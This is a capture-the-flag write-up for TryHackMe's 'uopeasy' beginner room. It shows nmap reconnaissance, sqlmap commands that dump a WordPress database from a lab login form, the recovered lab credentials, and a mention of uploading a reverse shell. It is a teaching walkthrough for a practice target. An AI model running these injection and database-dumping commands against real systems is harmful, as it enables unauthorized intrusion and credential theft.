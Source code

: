 ```yaml
---
title: "uopeasy - TryHackMe"
author: Ludovic COULON
date: 2020-07-18
hero: ./images/hero.jpg
excerpt: "Writeup for the uopeasy university of Portsmouth's beginner room"
---
```


[TryHackMe | uopeasy](https://tryhackme.com/room/uopeasy)

University of Portsmouth's beginner room.

In this set of tasks you will learn the following:

- Basic SQL injection
- Use of reconnaissance tool
- nmap
- WordPress RCE and reverse shells
- Cracking the hash (John the ripper / hashcat)
- Possibly Nikto
- Burp Suite or dirbuster

The main goal here is to learn as much as possible. Make sure you are connected to our network using your [OpenVPN configuration file](https://tryhackme.com/access).

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.180.236
```

```bash
80/tcp   open  http     syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).

443/tcp  open  ssl/http syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-02-17T03:30:05
| Not valid after:  2025-02-14T03:30:05
| MD5:   ebd4 a980 6e51 1b13 769e d4b1 28f9 71dd
| SHA-1: 6297 03e9 f83b 06e7 d50d 3f4b 5bae 38c9 7665 cc64
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQDg5heFLm8t8jANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwMjE3MDMzMDA1WhcNMjUwMjE0MDMzMDA1WjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANFjfgmsBCGKWfdqCYZnY2mKvtUnYFtenVjtqdReduE12yavSQZuWAi2
| jIpCUMwG7RG3QAwyzCoMWAzF/tZimI8uNL8G9m84l/wQAbTPMPJTgJXpwY0/9IRc
| hdqtpFoVS251qA9AvPeqMv/hV+rKVAkYcONB6Q8Or8S6ifkEBAZbAgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEAQ3Kt0nVDLMkAv9/k1bt6KaM06cvTtiekgu0ugxA0TNXC
| FNIBqu/Fasog43FRLuUtAtNCNMqI5QAAVPatQPk1QmVoE+IxbvxldrKykZk9oXkj
| 5rbE43BAkxyiMvuNsZh7W2Lzx14tlA84c8B4Y1S0CqoVLpaJaCQ5MtVMSya3wAM=
|_-----END CERTIFICATE-----

8080/tcp open  http     syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

![https://imgur.com/9SK08g2.png](https://imgur.com/9SK08g2.png)

![https://imgur.com/G7Wb80W.png](https://imgur.com/G7Wb80W.png)

### #1 Deploy the machine and connect to **our network.**

```bash
No awnser needed
```

### #2 Do some basic reconnaissance on the website. What pages can you view? What ports are open? What can you access?

```bash
No awnser needed
```

### #3 You should have found some additional pages on different ports. What service does the site most likely use for this page?

```bash
mysql
```

### #4 Using the fact that this site has this service running, how can you exploit it? Do not use SQLMap yet..

```bash
Since this is some php room let's say that is SQLi (SQL Injection)
```

```bash
SQLi
```

### #5 Try and return 1 on the page by entering certain characters into the form.

```bash
No awnser needed
```

### #6 Using SQL injection, can you extract the username and password for this form? You may need the help of Burp's intruder function OR SQLMap.

```bash
No awnser needed
```

### #7 What was the username?

Dump the database using sqlmap

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php --forms -dbs
```

![https://imgur.com/9yukJFN.png](https://imgur.com/9yukJFN.png)

![https://imgur.com/lu0ABlM.png](https://imgur.com/lu0ABlM.png)

Let's see the content of the wordpress8080 table

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php –forms –dbs –dump-all -D wordpress8080
```

![https://imgur.com/ucY2JNZ.png](https://imgur.com/ucY2JNZ.png)

Credentials retrieved

```bash
Username : admin
Password : SuperSecretPassword
```

### #8 What was the password?

```bash
SuperSecretPassword
```

### #9 Now you have these credentials, where else on the site can you go? Using the credentials you have and another part of the site, login and try to execute remote commands on the server.

```bash
No awnser needed
```

### #10 Can you get a reverse shell back to your local machine?

```bash
No awnser needed
```

### #11 Can you crack anyones password? Using the very popular rockyou.txt

```bash
No awnser needed
```

### #12 What is the final cracked hash password for the user "user"?

Let's upload the reverse shell on the wordpress blog

![https://imgur.com/z6QQkJF.png](https://imgur.com/z6QQkJF.png)

![https://imgur.com/AIcHLNM.png](https://imgur.com/AIcHLNM.png)

![https://imgur.com/9B1RXrg.png](https://imgur.com/9B1RXrg.png)

Nice we have the creds for the database let's try them 😇

![https://imgur.com/csDngND.png](https://imgur.com/csDngND.png)

![https://imgur.com/DElAc2V.png](https://imgur.com/DElAc2V.png)

```bash
SuperSecretPassword
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
